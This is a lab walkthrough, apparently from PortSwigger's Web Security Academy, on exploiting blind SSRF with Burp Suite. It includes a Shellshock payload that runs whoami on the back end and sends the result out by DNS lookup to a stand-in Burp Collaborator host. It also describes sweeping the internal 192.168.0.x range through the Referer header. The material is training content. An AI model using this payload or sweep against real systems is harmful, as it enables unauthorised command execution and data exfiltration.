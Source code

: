 Simply using out-of-band techniques to identify blind SSRFs doesn't in itself provide a route to exploitability. Since you cannot view the response from the backend request the behavior can't be used to exploit what's inside the target system. However, it can still be used to probe for other vulnerabilities in the target system, for example:
- Blindly sweep the internal IP address space
- Send payloads designed to detect well-known vulnerabilities; wherein if the payloads employ blind out-of-band techniques, it can uncover a critical vulnerability on an unpatched server

Another way to exploit blind SSRF is to induce the application to connect to a server under the attacker's control, and return a malicious response to the HTTP client that makes the connection. If the attacker can exploit serious vulnerability in the server's HTTP implementation, it might lead to a remote code execution.

1. In [Burp Suite Professional](https://portswigger.net/burp/pro), install the "Collaborator Everywhere" extension from the BApp Store.
2. Add the domain of the lab to Burp Suite's [target scope](https://portswigger.net/burp/documentation/desktop/tools/target/scope), so that Collaborator Everywhere will target it.
3. Browse the site.
4. Observe that when you load a product page, it triggers an HTTP interaction with Burp Collaborator, via the Referer header.
5. Observe that the HTTP interaction contains your User-Agent string within the HTTP request.
6. Send the request to the product page to Burp Intruder.
7. Go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab and generate a unique Burp Collaborator payload. Place this into the following Shellshock payload:
    `() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN`
8. Replace the User-Agent string in the Burp Intruder request with the Shellshock payload containing your Collaborator domain.
9. Click "Clear §", change the Referer header to `http://192.168.0.1:8080` then highlight the final octet of the IP address (the number `1`), click "Add §".
10. Switch to the Payloads tab, change the payload type to Numbers, and enter 1, 255, and 1 in the "From" and "To" and "Step" boxes respectively.
11. Click "Start attack".
12. When the attack is finished, go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously. You should see a DNS interaction that was initiated by the back-end system that was hit by the successful blind [SSRF attack](https://portswigger.net/web-security/ssrf). The name of the OS user should appear within the DNS subdomain.
13. To complete the lab, enter the name of the OS user.

## Cracking the Lens: Targeting HTTP's Hidden Attack-Surface
![Cracking the Lens: Targeting HTTP's Hidden Attack-Surface](https://www.youtube.com/watch?v=zP4b3pw94s0)